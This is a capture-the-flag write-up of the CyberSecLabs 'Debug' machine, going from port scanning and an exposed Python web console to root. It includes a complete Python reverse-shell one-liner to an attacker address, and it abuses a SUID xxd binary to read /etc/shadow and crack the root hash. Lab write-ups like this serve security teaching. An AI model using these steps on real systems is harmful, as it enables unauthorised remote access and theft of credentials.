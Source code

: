 ```yaml
---
layout: page
title: Debug - CyberSecLabs
permalink: /posts/ctf/cyberseclabs/debug.html
---
```


# Debug - CyberSecLabs
----



First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 172.31.1.3`

![image](https://user-images.githubusercontent.com/50459517/109021751-cb156300-7680-11eb-90a4-873c885cfa6f.png)

Looks like we only have 2 ports open, lets check out the web site on port 80

![image](https://user-images.githubusercontent.com/50459517/109021814-d8cae880-7680-11eb-9c6f-08bb45af8d35.png)

Seems like we have just a basic web site here, lets enumerate for directories with **dirsearch**

![image](https://user-images.githubusercontent.com/50459517/109021881-e84a3180-7680-11eb-8f33-18056eb700fb.png)

A couple of these such as /contact and /blog can be seen from the main page, however /console looks interesting.  Lets go there and see what we got.

![image](https://user-images.githubusercontent.com/50459517/109021930-f5672080-7680-11eb-8aa9-371eb8d6d09c.png)

Looks like we have an interactive console on the website that we can execute python code on.  I tried a simple **print("hello world")** which worked successfully.  I then executed the following to test and see if we was executing code straight from the server and make sure this wasn't some kind of rabbit hole.

![image](https://user-images.githubusercontent.com/50459517/109021975-0021b580-7681-11eb-875f-7c211ffc4659.png)

This looks good.  Since we are executing python code from the server, we can execute a python reverse shell one liner like the following to get a reverse shell..

`import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`

If we start a netcat listener on out machine and execute this, we get a shell as the user **megan**

![image](https://user-images.githubusercontent.com/50459517/109022222-3eb77000-7681-11eb-957a-26b53cd72042.png)

Now lets copy **LinPEAS** to the machine and see what we can find.

![image](https://user-images.githubusercontent.com/50459517/109022265-48d96e80-7681-11eb-8f49-b708062b16ea.png)

We see an interesting SUID binary that we may be able to abuse.  Lets look at **GTFOBins** and see what we can find.

![image](https://user-images.githubusercontent.com/50459517/109022317-52fb6d00-7681-11eb-93aa-84098690185d.png)

Looks like we may be able to abuse xxd to read files we don't have permission too.  Lets see if we can read the contents of **/etc/shadow**

![image](https://user-images.githubusercontent.com/50459517/109022368-5ee72f00-7681-11eb-8cf7-fdb06499cf3d.png)

It worked!  Lets copy the root hash and run it through john to see if we can crack it.

![image](https://user-images.githubusercontent.com/50459517/109022423-6a3a5a80-7681-11eb-84a2-37ac87a760e0.png)

Looks like we have a password!  Now we can login and have full root access to the machine!

![image](https://user-images.githubusercontent.com/50459517/109022462-732b2c00-7681-11eb-95db-806ca283ee01.png)
